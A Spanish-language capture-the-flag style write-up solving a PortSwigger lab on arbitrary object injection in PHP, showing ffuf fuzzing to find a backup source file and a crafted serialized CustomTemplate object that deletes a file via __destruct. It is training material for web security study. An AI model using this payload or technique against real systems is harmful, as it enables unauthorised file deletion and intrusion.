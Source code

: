 ```yaml
---
title: Arbitrary object injection in PHP
description: Laboratorio de Portswigger sobre Insecure Deserialization
date: 2024-12-31 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Insecure Deserialization
tags:
  - Portswigger Labs
  - Insecure Deserialization
  - Arbitrary object injection in PHP
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza un mecanismo de `sesiones` basado en `serialización` y es vulnerable a la `inyección arbitraria de objetos`. Para `resolver` el laboratorio, debemos `crear e inyectar un objeto serializado malicioso` para `eliminar` el archivo `morale.txt` del directorio personal de `Carlos`. Necesitaremos `obtener acceso` al `código fuente` para `resolver` este `laboratorio`. Podemos `iniciar sesión` en nuestra cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Insecure-Deserialization-Lab-4/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/Insecure-Deserialization-Lab-4/image_2.png)

Si hacemos `Ctrl + u` e `inspeccionamos` el `código fuente` de la web, vemos como en la `parte inferior` hay un `comentario` que hace alusión a la ruta `/libs/CustomTemplate.php`

![](/assets/img/Insecure-Deserialization-Lab-4/image_3.png)

`Fuzzeamos` en busca de `archivos` de `backup` y `encontramos` un `archivo` llamado `CustomTemplate.php~`

```
# ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-extensions.txt -u https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplateFUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplateFUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-extensions.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.php                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 139ms]
.php~                   [Status: 200, Size: 1130, Words: 277, Lines: 39, Duration: 55ms]
.php                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 132ms]
:: Progress: [2450/2450] :: Job [1/1] :: 19 req/sec :: Duration: [0:00:33] :: Errors: 0 ::
```

Si accedemos a `https://0a81003d04de82aa80dafdef00120067.web-security-academy.net/libs/CustomTemplate.php~` podemos ver el `código` del `archivo php`. Si nos fijamos bien en el código vemos los métodos `__destruct()` y `__construct()`, los cuales son `métodos mágicos`, en `PHP` es fácil reconocerlos porque llevan `__` siempre en su nombre. Los métodos mágicos en PHP son funciones especiales predefinidas que se `ejecutan automáticamente` en `respuesta` a ciertos `eventos` o `interacciones` con un `objeto`. En este caso el método que nos interesa es el método mágico `__destruct`, que `borra` el `archivo` que esté en la variable `lock_file_path`

![](/assets/img/Insecure-Deserialization-Lab-4/image_4.png)

`Refrescamos` la `web` con `F5` y `capturamos` la `petición` con `Burpsuite`, al hacerlo vemos que el `parámetro session` contiene un `objeto`

![](/assets/img/Insecure-Deserialization-Lab-4/image_5.png)

`Obtenemos` la `longitud` de `/home/carlos/morale.txt`

```
# echo -n '/home/carlos/morale.txt' | wc -c 
```

`Obtenemos` la `longitud` de `lock_file_path`

```
# echo -n 'lock_file_path' | wc -c 
```

`Obtenemos` la `longitud` de `CustomTemplate`

```
# echo -n 'CustomTemplate' | wc -c
```

`Modificamos` el `objeto` cambiando la `clase` a `CustomTemplate` y `añadiéndole` el parámetro `lock_file_path`, de forma que si el archivo `/home/carlos/morale.txt` existe lo borre

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Nos dirigimos al `navegador` y pulsamos `Ctrl + Shift + i`, pegamos el nuevo valor para `session` y `refrescamos` la `web` pulsando `F5`. Si todo ha funcionado correctamente deberíamos haber `borrado` el `archivo` y `completado` el `laboratorio`

![](/assets/img/Insecure-Deserialization-Lab-4/image_6.png)

